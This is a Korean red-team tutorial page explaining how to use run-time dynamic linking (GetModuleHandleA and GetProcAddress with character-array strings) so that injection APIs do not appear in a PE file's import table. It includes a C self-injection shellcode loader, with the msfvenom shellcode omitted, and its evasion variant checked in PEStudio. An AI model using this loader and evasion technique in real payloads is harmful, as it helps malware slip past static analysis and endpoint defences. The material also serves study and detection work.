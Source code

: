 # 런타임 다이나믹 링킹 (Run-time Dynamic Linking)

PE 파일 구조에서 Import Address Table (IAT)는 해당 파일이 사용하는 DLL의 exported 함수 포인터들을 기록해놓은 부분이다. IAT는 PE 파일 실행시 윈도우 로더 (Windows Loader) 가 PE파일을 메모리에 로드하며 해당 파일이 사용하는 DLL과 exported 함수들을 같이 맵핑 하기 위해 사용된다.

페이로드 제작시 대부분의 윈도우 API들은 직접/간접 시스템 콜을 사용하기 때문에 IAT에 수상한 윈도우 API 함수가 기록될 일은 없다. 하지만 항상 직접/간접 시스템 콜을 사용할 수 있는 것도 아니고, 가끔씩 순정 윈도우 API를 페이로드에 사용해야만 할 때가 있다. 이때 IAT에 수상한 윈도우 API(`WriteProcessMemory`, `CreateRemoteThreadEx` , 등)들이 기록되어 있다면 정적 분석에 걸리게 된다.

Run-time Dynamic Linking (런타임 다이나믹 링킹) 은 런타임 중 동적으로 DLL에서 exported 함수를 로드해 사용하는 기법이다. 이 기법을 사용하면 IAT에 수상한 윈도우 API들이 기록되지 않기 때문에 정적 분석을 통과할 확률이 높아진다. 물론 여전히 윈도우 API를 사용하는 것이고, 시스템 콜을 사용하는 것이 아니기 때문에 유저랜드 후킹이나 다른 방어 기법들에 걸리게 된다. 따라서 런타임 다이나믹 링킹은 최소한의 방어 우회 기법이다 정도로만 생각해야한다.

### 코드

런타임 다이나믹 링킹의 코드는 다음과 같은 형태로 이루어져있다.

```
// 윈도우 API 함수 포인터 구조체 생성 
typedef LPVOID(WINAPI* _VirtualAlloc)(LPVOID, SIZE_T, DWORD, DWORD);

// 필요한 문자열 unsigned char 형태로 저장 
unsigned char sKernel32[] = { 'K','e','r','n','e','l','3','2',0x0 };
unsigned char sVirtualAlloc[] = { 'V','i','r','t','u','a','l','A','l','l','o','c',0x0 };

// 런타임 중 DLL의 모듈 핸들을 구한 뒤 exported 함수의 핸들을 구함. 그 뒤 윈도우 API 함수 포인터 구조체로 캐스팅 (형변환)
_VirtualAlloc pVirtualAlloc = (_VirtualAlloc)(GetProcAddress(GetModuleHandleA((LPCSTR)sKernel32), (LPCSTR)sVirtualAlloc));

... 

// 4. 이제부터 VirtualAlloc 대신 pVirtualAlloc 을 사용 
```

1. 윈도우 API 함수와 동일한 인자 및 반환을 하는 함수 포인터 (`WINAPI*`) 구조체를 생성한다.
2. 그 뒤, 필요한 문자열을 `unsigned char` 형태로 저장한다. 예를 들어 DLL의 이름인 `kernel32.dll / ntdll.dll` 이나 exported 함수 이름인 `VirtualAlloc, WriteProcessMemory, MiniDumpWriteDump` 등이다.
3. `GetModuleHandleA` 와 DLL 이름 문자열을 이용해 모듈의 핸들을 얻는다. 그 뒤, 모듈의 핸들과 exported 함수 이름을 `GetProcAddress` 함수에다 집어넣어 함수 포인터를 얻는다.
4. 이 함수 포인터를 #1 번에서 만들어 놨던 윈도우 API 함수 포인터 구조체로 캐스팅 (형변환) 한다.
5. 이제부터 해당 윈도우 API 함수를 사용하고 싶다면, #4번에서 만든 함수 포인터를 사용하면 된다.

\#3 \~ #4 번에서 런타임 중 `GetModuleHandleA` 와 `GetProcAddress` 함수가 실행되며 함수 포인터를 획득하고, 이를 윈도우 API 함수 포인터 구조체로 캐스팅하게 된다. 즉, 정적인 PE 파일 상태에서의 IAT에는 아무것도 없고, 오로지 파일이 실행돼 메모리에 로드 되고 런타임에 들어갔을 때 사용하고자 하는 윈도우 API를 함수 포인터 형태로 사용할 수 있게 된다.

### 실습

먼저 런타임 다이나믹 링킹이 적용되지 않은 간단한 셀프 인젝션 코드를 살펴본다.

```
#include <iostream>
#include <windows.h>

int main()
{
	// msfvenom -p windows/x64/exec CMD="calc.exe" -f c
	unsigned char buf[] = < ... 쉘코드 ... >

	// VirtualAlloc on self 
	HANDLE hProc = GetCurrentProcess();
	LPVOID hAlloc = (LPVOID)VirtualAlloc(NULL, sizeof(buf), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (hAlloc == NULL) {
		printf("[-] VirtualAlloc failed: %d\n", GetLastError());
		return 1;
	}
	
	// WriteProcessMemory on self 
	SIZE_T* lpNumberOfBytesWritten = 0;
	if (!WriteProcessMemory(hProc, hAlloc, (LPVOID)buf, sizeof(buf), lpNumberOfBytesWritten)) {
		printf("[-] WPM failed: %d\n", GetLastError());
		return 1;
	}

	// CRT and execute the shellcode 
	DWORD threadId = 0; 
	HANDLE hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)hAlloc, NULL, 0, (LPDWORD)(&threadId));
	if (hThread == NULL) {
		printf("[-] CRT failed: %d\n", GetLastError());
		return 1; 
	}
	
	// WaitForSingleObject 
	WaitForSingleObject(hThread, 1000);

	return 0; 
}
```

컴파일 후 PEStudio 로 해당 파일을 살펴보면 IAT에 수상한 윈도우 API인 `WriteProcessMemory` 와 `CreateRemoteThread` 가 보인다. "Flag" 도 총 6개로, 수상한 윈도우 API 6개가 IAT에 기록되어 있다는 것을 보여준다.&#x20;

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

이제 런타임 다이나믹 링킹을 적용해보자. `WriteProcessMemory` 와 `CreateRemoteThread` 에 적용한 뒤, 다시 컴파일을 한다.

```
unsigned char sKernel32[] = { 'K','e','r','n','e','l','3','2',0x0 };

typedef BOOL(WINAPI* _WriteProcessMemory)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
unsigned char sWriteProcessMemory[] = { 'W','r','i','t','e','P','r','o','c','e','s','s','M','e','m','o','r','y',0x0 };
_WriteProcessMemory pWriteProcessMemory = (_WriteProcessMemory)(GetProcAddress(GetModuleHandleA((LPCSTR)sKernel32), (LPCSTR)sWriteProcessMemory));

typedef HANDLE(WINAPI* _CreateRemoteThread)(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
unsigned char sCreateRemoteThread[] = { 'C','r','e','a','t','e','R','e','m','o','t','e','T','h','r','e','a','d',0x0 };
_CreateRemoteThread pCreateRemoteThread = (_CreateRemoteThread)(GetProcAddress(GetModuleHandleA((LPCSTR)sKernel32), (LPCSTR)sCreateRemoteThread));

[ ... 나머지 코드 동일 ... ]
```

다시 PEStudio 로 살펴보면, IAT 에서 `WriteProcessMemory` 와 `CreateRemoteThread` 가 더이상 보이지 않는다. "Flag" 도 6개에서 4개로 줄었다.&#x20;

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

런타임 다이나믹 링킹은 간단한 정적 분석을 우회하기 위한 용도로만 사용되야한다. 중요한 윈도우 API의 경우 직접/간접 시스템 콜을 이용하거나 수동적 맵핑을 이용한 방법을 사용하도록 한다. 별로 중요하지 않지만 자주 사용되고, 직/간접 시스템 콜을 사용할 수 없는 윈도우 API (`Process32Next` 등)의 경우, 런타임 다이나믹 링킹을 적용하면 IAT 목록을 수상하지 않게 만들 수 있다.&#x20;

### References

{% embed url="https://0xrick.github.io/win-internals/pe6" %}

{% embed url="https://vanmieghem.io/blueprint-for-evading-edr-in-2022" %}
